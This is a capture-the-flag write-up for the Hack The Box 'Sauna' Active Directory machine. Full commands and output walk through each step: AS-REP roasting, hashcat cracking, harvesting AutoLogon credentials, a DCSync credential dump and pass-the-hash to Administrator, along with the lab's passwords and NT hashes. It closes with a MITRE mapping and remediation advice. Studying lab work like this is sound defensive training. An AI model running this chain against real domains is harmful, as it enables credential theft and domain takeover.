



```
    ███████╗ █████╗ ██╗   ██╗███╗   ██╗ █████╗
    ██╔════╝██╔══██╗██║   ██║████╗  ██║██╔══██╗
    ███████╗███████║██║   ██║██╔██╗ ██║███████║
    ╚════██║██╔══██║██║   ██║██║╚██╗██║██╔══██║
    ███████║██║  ██║╚██████╔╝██║ ╚████║██║  ██║
    ╚══════╝╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═══╝╚═╝  ╚═╝

    ┌──────────────────────────────────────────────────────────────────────────────┐
    │░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░│
    │░  ▄▄▄       ▄████▄  ▄▄▄█████▓ ██▓ ██▒   █▓▓█████    ▓█████▄  ██▓ ██▀███      ░│
    │░ ▒████▄    ▒██▀ ▀█  ▓  ██▒ ▓▒▓██▒▓██░   █▒▓█   ▀    ▒██▀ ██▌▓██▒▓██ ▒ ██▒    ░│
    │░ ▒██  ▀█▄  ▒▓█    ▄ ▒ ▓██░ ▒░▒██▒ ▓██  █▒░▒███      ░██   █▌▒██▒▓██ ░▄█ ▒    ░│
    │░ ░██▄▄▄▄██ ▒▓▓▄ ▄██▒░ ▓██▓ ░ ░██░  ▒██ █░░▒▓█  ▄    ░▓█▄   ▌░██░▒██▀▀█▄      ░│
    │░  ▓█   ▓██▒▒ ▓███▀ ░  ▒██▒ ░ ░██░   ▒▀█░  ░▒████▒   ░▒████▓ ░██░░██▓ ▒██▒    ░│
    │░  ▒▒   ▓▒█░░ ░▒ ▒  ░  ▒ ░░   ░▓     ░ ▐░  ░░ ▒░ ░    ▒▒▓  ▒ ░▓  ░ ▒▓ ░▒▓░    ░│
    │░   ▒   ▒▒ ░  ░  ▒       ░     ▒ ░   ░ ░░   ░ ░  ░    ░ ▒  ▒  ▒ ░  ░▒ ░ ▒░    ░│
    │░   ░   ▒   ░          ░       ▒ ░     ░░     ░       ░ ░  ░  ▒ ░  ░░   ░     ░│
    │░       ░  ░░ ░                ░        ░     ░  ░      ░     ░     ░         ░│
    │░           ░                          ░             ░                        ░│
    │░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░│
    │           E X P L O I T A T I O N   //   A C T I V E   D I R E C T O R Y     │
    └──────────────────────────────────────────────────────────────────────────────┘
```

<div align="center">


</div>

---

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  ATTACK VECTORS                                                                  ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  [+] Website OSINT - Employee Name Enumeration                                   ║
║  [+] Username Generation via username-anarchy                                    ║
║  [+] AS-REP Roasting (Kerberos Pre-Auth Disabled)                                ║
║  [+] Hash Cracking with Hashcat                                                  ║
║  [+] AutoLogon Credentials Discovery via WinPEAS                                 ║
║  [+] DCSync Attack (Replication Privilege Abuse)                                 ║
║  [+] Pass-the-Hash for Administrator Access                                      ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## TABLE OF CONTENTS

- [>_ TARGET ACQUISITION](#-target-acquisition)
- [>_ INITIAL RECONNAISSANCE](#-initial-reconnaissance)
- [>_ WEB ENUMERATION](#-web-enumeration)
- [>_ FOOTHOLD // AS-REP ROASTING](#-foothold--as-rep-roasting)
- [>_ PRIVILEGE ESCALATION](#-privilege-escalation)
- [>_ BLOODHOUND ANALYSIS](#-bloodhound-analysis)
- [>_ DCSYNC ATTACK](#-dcsync-attack)
- [>_ SYSTEM ACCESS OBTAINED](#-system-access-obtained)
- [>_ CREDENTIALS VAULT](#-credentials-vault)
- [>_ MITRE ATT&CK MAPPING](#-mitre-attck-mapping)
- [>_ LESSONS LEARNED](#-lessons-learned)

---

## >_ TARGET ACQUISITION

```
┌─────────────────────────────────────────────────────────────────────────────────┐
│  T A R G E T   I N F I L T R A T I O N   P A R A M E T E R S                   │
├─────────────────────────────────────────────────────────────────────────────────┤
│  IP ADDRESS........: 10.10.10.175                                               │
│  HOSTNAME..........: SAUNA.EGOTISTICAL-BANK.LOCAL                               │
│  DOMAIN............: EGOTISTICAL-BANK.LOCAL                                     │
│  OPERATING SYSTEM..: Windows Server 2019 (Active Directory DC)                  │
│  DIFFICULTY........: Easy                                                       │
│  ATTACK SURFACE....: Active Directory Domain Controller                         │
│  KEY SERVICES......: Kerberos, LDAP, SMB, WinRM, HTTP                           │
└─────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ INITIAL RECONNAISSANCE

### NETWORK SCANNING // RUSTSCAN + NMAP

Add target to `/etc/hosts` using NetExec:

```bash
sudo nxc smb $RHOST --generate-hosts-file /etc/hosts
```

This automatically adds the domain and hostname to your hosts file for proper name resolution.

```bash
rustscan -a $RHOST --ulimit 5000 -r 1-65535 -- -A -Pn -oA Sauna_fullScan
```

```
Open 10.10.10.175:53
Open 10.10.10.175:80
Open 10.10.10.175:88
Open 10.10.10.175:135
Open 10.10.10.175:139
Open 10.10.10.175:389
Open 10.10.10.175:445
Open 10.10.10.175:464
Open 10.10.10.175:593
Open 10.10.10.175:3268
Open 10.10.10.175:5985
Open 10.10.10.175:9389
{SNIP - High ports 49667-49696}
```

**Critical Ports Identified:**

| Port | Service | Significance |
|------|---------|--------------|
| 53 | DNS | Domain DNS resolution |
| 80 | HTTP | Microsoft IIS 10.0 - Bank Website (OSINT Target) |
| 88 | Kerberos | Authentication service - AS-REP Roasting target |
| 135 | MSRPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 389 | LDAP | Microsoft Windows AD LDAP |
| 445 | SMB | Windows Server 2019 Standard |
| 464 | Kpasswd5 | Kerberos password change |
| 593 | MSRPC | HTTP RPC Endpoint Mapper |
| 3268 | LDAP | Global Catalog |
| 5985 | WinRM | Remote PowerShell - shell access with valid creds |
| 9389 | .NET Message | AD Web Services |

```
┌──────────────────────────────────────────────────────────────────────┐
│  KEY FINDINGS                                                        │
├──────────────────────────────────────────────────────────────────────┤
│  [+] Port 88 (Kerberos) - Target for AS-REP Roasting                 │
│  [+] Port 5985 (WinRM) - Remote shell access once creds obtained     │
│  [+] Port 80 (HTTP) - Employee names for username generation         │
└──────────────────────────────────────────────────────────────────────┘
```

---

## >_ WEB ENUMERATION

Browsing to port 80 reveals **Egotistical Bank** corporate website. The "Meet The Team" page exposed employee names:

```
┌─ EMPLOYEES DISCOVERED ─────────────────────────────────────────────┐
│  Fergus Smith                                                      │
│  Shaun Coins                                                       │
│  Hugo Bear                                                         │
│  Bowie Taylor                                                      │
│  Sophie Driver                                                     │
│  Steven Kerb                                                       │
└────────────────────────────────────────────────────────────────────┘
```

Created target user list:

```bash
cat ~/users.txt
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb
```

---

## >_ FOOTHOLD // AS-REP ROASTING

### USERNAME GENERATION

Used `username-anarchy` to generate AD username permutations:

```bash
./username-anarchy --input-file ~/users.txt > test_users.txt
```

```bash
cat test_users.txt
fergus
fergussmith
fergus.smith
fergussm
fergsmit
ferguss
f.smith
fsmith
sfergus
s.fergus
{SNIP}
```

### AS-REP ROASTING ATTACK

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  VULNERABILITY IDENTIFIED                                                        ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  TYPE......: Kerberos Pre-Authentication Disabled                                ║
║  TECHNIQUE.: AS-REP Roasting (T1558.004)                                         ║
║  IMPACT....: Offline password cracking without authentication                    ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

```bash
GetNPUsers.py -no-pass -usersfile test_users.txt -dc-ip $RHOST EGOTISTICAL-BANK.local/
```

```
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
{SNIP - Multiple failures}
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:a978c311c5bcae8b594f0ea98936089d$aff370c2a23ea559a93f754076ce67d6cd6a5dcb934af1053bba559b89765e61839e9e634b674a59f67c9079951c8adf4eba1b9e1111a2812b26b237db45d1656b2bfc593c834bbe3241b031234fc61a42d5adfa1731eb3eb3da8b17bb49633e9360221934db43bd2860b9fb01c14b33eda691de528a6e61e93444370aad98c4c99aa9994e641716492ffa1345d282f9da0363329cbd7d94b6a0abf6f59f60fce2d0c75181ce0091b7baa4f6f320cddd2efc026ade0f7864dc7cf860140aca58b9553bc4d222b6c7275a1092102f3be6b77c89fd63d5032e28f4619982e12f17071933e544030f242b48c725799f50236f2d505f1a701cbb4e695ee82c341303
{SNIP - More failures}
```

**Got hash for `fsmith`**

### HASH CRACKING

```bash
cat << EOF > hash
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:a978c311c5bcae8b594f0ea98936089d$aff370c2a23ea559a93f754076ce67d6cd6a5dcb934af1053bba559b89765e61839e9e634b674a59f67c9079951c8adf4eba1b9e1111a2812b26b237db45d1656b2bfc593c834bbe3241b031234fc61a42d5adfa1731eb3eb3da8b17bb49633e9360221934db43bd2860b9fb01c14b33eda691de528a6e61e93444370aad98c4c99aa9994e641716492ffa1345d282f9da0363329cbd7d94b6a0abf6f59f60fce2d0c75181ce0091b7baa4f6f320cddd2efc026ade0f7864dc7cf860140aca58b9553bc4d222b6c7275a1092102f3be6b77c89fd63d5032e28f4619982e12f17071933e544030f242b48c725799f50236f2d505f1a701cbb4e695ee82c341303
EOF
```

```bash
hashcat -m 18200 hash.txt --wordlist rockyou.txt
```

```
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:...:Thestrokes23

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Time.Started.....: Sun Jan 11 11:44:37 2026 (1 sec)
Time.Estimated...: Sun Jan 11 11:44:38 2026 (0 secs)
{SNIP}
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  CREDENTIAL OBTAINED                                                             ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USERNAME: fsmith                                                                ║
║  PASSWORD: Thestrokes23                                                          ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

### INITIAL ACCESS VIA EVIL-WINRM

```bash
evil-winrm -i $RHOST -u 'fsmith' -p 'Thestrokes23'
```

```powershell
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
HTB{********_REDACTED_********}
```

---

## >_ PRIVILEGE ESCALATION

### BLOODHOUND DATA COLLECTION

```bash
bloodhound-ce-python -c all -u fsmith -p 'Thestrokes23' -d EGOTISTICAL-BANK.LOCAL -ns $RHOST --zip
```

```
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 1 domains
INFO: Found 7 users
INFO: Found 52 groups
{SNIP}
INFO: Compressing output into 20260111114613_bloodhound.zip
```

### WINPEAS ENUMERATION

```powershell
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload WinPEAS_64.exe
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\WinPEAS_64.exe
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  AUTOLOGON CREDENTIALS DISCOVERED                                                ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  Looking for AutoLogon credentials                                               ║
║  Some AutoLogon credentials were found                                           ║
║  DefaultDomainName    :  EGOTISTICALBANK                                         ║
║  DefaultUserName      :  EGOTISTICALBANK\svc_loanmanager                         ║
║  DefaultPassword      :  Moneymakestheworldgoround!                              ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  CREDENTIAL OBTAINED                                                             ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USERNAME: svc_loanmgr                                                           ║
║  PASSWORD: Moneymakestheworldgoround!                                            ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ BLOODHOUND ANALYSIS

BloodHound reveals `svc_loanmgr` has **DCSync** privileges (DS-Replication-Get-Changes):







```
┌──────────────────────────────────────────────────────────────────────┐
│  ATTACK PATH IDENTIFIED                                              │
├──────────────────────────────────────────────────────────────────────┤
│  svc_loanmgr@EGOTISTICAL-BANK.LOCAL                                  │
│       │                                                              │
│       └──[DCSync Rights]──> EGOTISTICAL-BANK.LOCAL (Domain)          │
│                                   │                                  │
│                                   └──> Full Credential Dump          │
└──────────────────────────────────────────────────────────────────────┘
```

---

## >_ DCSYNC ATTACK

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  VULNERABILITY IDENTIFIED                                                        ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  TYPE......: Excessive DCSync Privileges                                         ║
║  TECHNIQUE.: DCSync (T1003.006)                                                  ║
║  IMPACT....: Complete domain credential compromise                               ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

```bash
secretsdump.py 'EGOTISTICAL-BANK'/'svc_loanmgr':'Moneymakestheworldgoround!'@'10.10.10.175'
```

```
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:ac100d89f65b041c0474cb0238fbdd16:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
{SNIP - Additional Kerberos keys}
[*] Cleaning up...
```

---

## >_ SYSTEM ACCESS OBTAINED

### PASS-THE-HASH ATTACK

```bash
evil-winrm -i 10.10.10.175 -u 'Administrator' -H '823452073d75b9d1cf70ebdf86c7f98e'
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
HTB{********_REDACTED_********}
```

```
╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ███████╗██╗   ██╗███████╗████████╗███████╗███╗   ███╗                           ║
║   ██╔════╝╚██╗ ██╔╝██╔════╝╚══██╔══╝██╔════╝████╗ ████║                           ║
║   ███████╗ ╚████╔╝ ███████╗   ██║   █████╗  ██╔████╔██║                           ║
║   ╚════██║  ╚██╔╝  ╚════██║   ██║   ██╔══╝  ██║╚██╔╝██║                           ║
║   ███████║   ██║   ███████║   ██║   ███████╗██║ ╚═╝ ██║                           ║
║   ╚══════╝   ╚═╝   ╚══════╝   ╚═╝   ╚══════╝╚═╝     ╚═╝                           ║
║                                                                                   ║
║   C:\Windows\system32> whoami                                                     ║
║   egotisticalbank\administrator                                                   ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ FLAGS & PROOF OF COMPROMISE

```
╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ██╗   ██╗███████╗███████╗██████╗     ███████╗██╗      █████╗  ██████╗           ║
║   ██║   ██║██╔════╝██╔════╝██╔══██╗    ██╔════╝██║     ██╔══██╗██╔════╝           ║
║   ██║   ██║███████╗█████╗  ██████╔╝    █████╗  ██║     ███████║██║  ███╗          ║
║   ██║   ██║╚════██║██╔══╝  ██╔══██╗    ██╔══╝  ██║     ██╔══██║██║   ██║          ║
║   ╚██████╔╝███████║███████╗██║  ██║    ██║     ███████╗██║  ██║╚██████╔╝          ║
║    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝    ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝           ║
║                                                                                   ║
║   LOCATION: C:\Users\FSmith\Desktop\user.txt                                      ║
║   FLAG: HTB{********_REDACTED_********}                                           ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝

╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ██████╗  ██████╗  ██████╗ ████████╗    ███████╗██╗      █████╗  ██████╗         ║
║   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝    ██╔════╝██║     ██╔══██╗██╔════╝         ║
║   ██████╔╝██║   ██║██║   ██║   ██║       █████╗  ██║     ███████║██║  ███╗        ║
║   ██╔══██╗██║   ██║██║   ██║   ██║       ██╔══╝  ██║     ██╔══██║██║   ██║        ║
║   ██║  ██║╚██████╔╝╚██████╔╝   ██║       ██║     ███████╗██║  ██║╚██████╔╝        ║
║   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝       ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝         ║
║                                                                                   ║
║   LOCATION: C:\Users\Administrator\Desktop\root.txt                               ║
║   FLAG: HTB{********_REDACTED_********}                                           ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ CREDENTIALS VAULT

```
╔════════════════════════════════════════════════════════════════════════════════════════════════════════════╗
║  EXFILTRATED CREDENTIALS                                                                                   ║
╠════════════╦══════════════════╦════════════════════════════════════════════╦═══════════════════════════════╣
║  TYPE      ║  USERNAME        ║  PASSWORD / HASH                           ║  SOURCE                       ║
╠════════════╬══════════════════╬════════════════════════════════════════════╬═══════════════════════════════╣
║  Cleartext ║  fsmith          ║  Thestrokes23                              ║  AS-REP Roast + Hashcat       ║
║  Cleartext ║  svc_loanmgr     ║  Moneymakestheworldgoround!                ║  AutoLogon Registry           ║
║  NT Hash   ║  Administrator   ║  823452073d75b9d1cf70ebdf86c7f98e          ║  DCSync                       ║
║  NT Hash   ║  HSmith          ║  58a52d36c84fb7f5f1beab9a201db1dd          ║  DCSync                       ║
║  NT Hash   ║  FSmith          ║  58a52d36c84fb7f5f1beab9a201db1dd          ║  DCSync                       ║
║  NT Hash   ║  krbtgt          ║  4a8899428cad97676ff802229e466e2c          ║  DCSync                       ║
║  NT Hash   ║  svc_loanmgr     ║  9cb31797c39a9b170b04058ba2bba48c          ║  DCSync                       ║
╚════════════╩══════════════════╩════════════════════════════════════════════╩═══════════════════════════════╝
```

---

## >_ MITRE ATT&CK MAPPING

| Tactic | Technique ID | Technique Name | Implementation |
|--------|--------------|----------------|----------------|
| **Reconnaissance** | T1595.002 | Active Scanning | Rustscan/Nmap |
| **Reconnaissance** | T1589.003 | Gather Employee Names | Website OSINT |
| **Credential Access** | T1558.004 | AS-REP Roasting | GetNPUsers.py |
| **Credential Access** | T1110.002 | Password Cracking | Hashcat |
| **Initial Access** | T1078 | Valid Accounts | fsmith via WinRM |
| **Discovery** | T1552.002 | Credentials in Registry | WinPEAS AutoLogon |
| **Credential Access** | T1003.006 | DCSync | secretsdump.py |
| **Lateral Movement** | T1550.002 | Pass-the-Hash | Evil-WinRM |

---

## >_ ARSENAL DEPLOYED

| Tool | Purpose |
|------|---------|
| **nxc (NetExec)** | SMB enum & hosts file generation |
| **rustscan** | Fast port scanning |
| **nmap** | Service enumeration |
| **username-anarchy** | AD username generation |
| **GetNPUsers.py** | AS-REP Roasting |
| **hashcat** | Hash cracking (mode 18200) |
| **bloodhound-ce-python** | AD data collection |
| **BloodHound CE** | Attack path visualization |
| **WinPEAS** | Windows privesc enumeration |
| **secretsdump.py** | DCSync attack |
| **Evil-WinRM** | WinRM shell access |

---

## >_ LESSONS LEARNED

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│  KEY TAKEAWAYS                                                                   │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  [1] Website OSINT is valuable                                                   │
│      - Employee names from corporate websites can lead to valid AD usernames     │
│                                                                                  │
│  [2] AS-REP Roasting                                                             │
│      - Always check for accounts with Kerberos pre-authentication disabled       │
│      - Tools like username-anarchy help generate valid username formats          │
│                                                                                  │
│  [3] AutoLogon = Free Credentials                                                │
│      - Windows AutoLogon stores passwords in registry (plaintext!)               │
│      - WinPEAS and other tools can extract these automatically                   │
│                                                                                  │
│  [4] Service Accounts are Dangerous                                              │
│      - Often have excessive privileges like DCSync rights                        │
│      - Monitor and audit service account permissions regularly                   │
│                                                                                  │
│  [5] DCSync = Game Over                                                          │
│      - Once you have replication rights, you own the domain                      │
│      - Only Domain Controllers should have these permissions                     │
│                                                                                  │
│  [6] Password Reuse                                                              │
│      - HSmith & FSmith share the same password hash                              │
│      - Enforce unique passwords and implement password policies                  │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘

┌──────────────────────────────────────────────────────────────────────────────────┐
│  BLOCKERS ENCOUNTERED                                                            │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  Problem: Hashcat autodetect mode caused segmentation fault                      │
│  Solution: Explicitly specify hash mode with `-m 18200`                          │
│                                                                                  │
│  Problem: GetNPUsers.py syntax confusion                                         │
│  Solution: Correct syntax: GetNPUsers.py -no-pass -usersfile FILE -dc-ip IP DOMAIN/  │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ SECURITY RECOMMENDATIONS

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│  REMEDIATION                                                                     │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  [1] AS-REP Roasting Vulnerability                                               │
│      - Issue: fsmith has "Do not require Kerberos preauthentication" enabled     │
│      - Fix: Disable this setting for all accounts, enforce strong passwords      │
│                                                                                  │
│  [2] AutoLogon Credentials                                                       │
│      - Issue: svc_loanmgr password stored in registry plaintext                  │
│      - Fix: Remove AutoLogon, use Group Managed Service Accounts (gMSA)          │
│                                                                                  │
│  [3] Excessive DCSync Permissions                                                │
│      - Issue: Service account has DS-Replication-Get-Changes privileges          │
│      - Fix: Remove replication rights from non-DC accounts immediately           │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ REFERENCES

**Techniques:**
- [HackTricks - AS-REP Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
- [HackTricks - DCSync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [PayloadsAllTheThings - AD Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)

**Tools:**
- [Impacket](https://github.com/SecureAuthCorp/impacket)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
- [username-anarchy](https://github.com/urbanadventurer/username-anarchy)

**Similar HTB Boxes:**
- HTB Forest (AS-REP Roasting)
- HTB Active (Kerberoasting)
- HTB Resolute (AD Enumeration)

---

## >_ POC SEARCH METHODOLOGY

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│  HOW TO FIND EXPLOITS & POC SCRIPTS                                              │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  [1] IDENTIFY VERSION                                                            │
│      ▸ Use nmap, nxc to fingerprint OS and services                              │
│      ▸ Check LDAP/SMB banners for Windows version                                │
│      ▸ Example: Windows Server 2019, Kerberos 5                                  │
│                                                                                  │
│  [2] SEARCH EXPLOIT-DB / SEARCHSPLOIT                                            │
│      ▸ searchsploit windows server 2019                                          │
│      ▸ searchsploit kerberos                                                     │
│      ▸ searchsploit active directory                                             │
│      ▸ https://www.exploit-db.com/                                               │
│                                                                                  │
│  [3] SEARCH CVE DATABASES                                                        │
│      ▸ https://nvd.nist.gov/ (NIST National Vulnerability Database)              │
│      ▸ https://cve.mitre.org/ (CVE List)                                         │
│      ▸ https://msrc.microsoft.com/ (Microsoft Security Response Center)          │
│                                                                                  │
│  [4] GITHUB POC REPOSITORIES                                                     │
│      ▸ https://github.com/fortra/impacket (Impacket - AD attacks)                │
│      ▸ https://github.com/GhostPack/Rubeus (Kerberos attacks)                    │
│      ▸ https://github.com/nomi-sec/PoC-in-GitHub (PoC aggregator)                │
│      ▸ https://github.com/trickest/cve (CVE PoC collection)                      │
│                                                                                  │
│  [5] ACTIVE DIRECTORY RESOURCES                                                  │
│      ▸ https://book.hacktricks.xyz/windows-hardening/active-directory-methodology │
│      ▸ https://adsecurity.org/ (AD Security Blog)                                │
│      ▸ https://www.thehacker.recipes/ (AD Attack Recipes)                        │
│                                                                                  │
│  [6] SECURITY RESEARCH RESOURCES                                                 │
│      ▸ https://github.com/swisskyrepo/PayloadsAllTheThings                       │
│      ▸ https://www.ired.team/ (Red Team Notes)                                   │
